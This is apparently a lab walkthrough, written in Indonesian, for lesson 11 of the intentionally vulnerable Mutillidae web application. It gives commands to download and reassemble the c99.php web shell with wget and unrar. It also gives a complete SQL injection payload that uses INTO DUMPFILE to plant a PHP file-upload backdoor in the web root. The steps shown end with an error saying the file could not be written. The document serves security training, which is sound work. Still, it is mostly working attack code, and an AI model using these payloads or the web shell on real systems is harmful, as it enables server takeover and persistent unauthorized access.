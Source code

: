 # Mutillidae Lesson 11


### Download c99.php
- Buka terminal dan ketikkan perintah berikut
```
mkdir -p /root/backdoor
cd /root/backdoor/
wget http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson11/stuff.rar
ls -lrt
```
![](Mutillidae%20lesson%211/1.png)
- Ekstrak stuff.rar
```
unrar x stuff.rar
cat part1.txt part2.txt part3.txt > c99.php
cp c99.php c99.php.bkp
ls -lrt
```
![](Mutillidae%20lesson%211/2.png)
- Pastikan baris pertama dari c99.php '<?php'
```
head -1 c99.php
sed -i '1 s/^.*$/<?php/g' c99.php // lakukan jika baris pertama tidak '<?php'
head -1 c99.php
```
- Kompres c99.php
```
gzip c99.php
```
![](Mutillidae%20lesson%211/3.png)


### Membuka Halaman User Info

- Pada client, buka mutillidae dari browser
```
http://[ip_metasploit]/mutillidae
```
- Buka halaman User Info
```
OWASP TOP 10 -> A1 - SQL Injection -> SQLi Extract Data -> User Info
```
![](Mutillidae%20lesson%211/4.png)

### SQL Injection dengan Output File upload_file.php
- Pada halaman User Info, lakukan inspect element pada form Name dan ubah nilai size menjadi 100.
![](Mutillidae%20lesson%211/5.png)
- Dan pada tombol View Account Details ubah align menjadi left.
![](Mutillidae%20lesson%211/6.png)
- Isi form Name dengan string berikut
```
' union select null,null,null,null,'<html><body><div><?php if(isset($_FILES["fupload"])) { $source = $_FILES["fupload"]["tmp_name"]; $target = $_FILES["fupload"]["name"]; move_uploaded_file($source,$target); system("chmod 770 $target"); $size = getImageSize($target); } ?></div><form enctype="multipart/form-data" action="<?php print $_SERVER["PHP_SELF"]?>" method="post"><p><input type="hidden" name="MAX_FILE_SIZE" value="500000"><input type="file" name="fupload"><br><input type="submit" name="upload!"><br></form></body></html>' INTO DUMPFILE '/var/www/html/mutillidae/upload_file.php' -- 
```
- Klik View Account Details
![](Mutillidae%20lesson%2011/7.png)
- Hasil error tidak bisa menulis file.
![](Mutillidae%20lesson%2011/8.png)
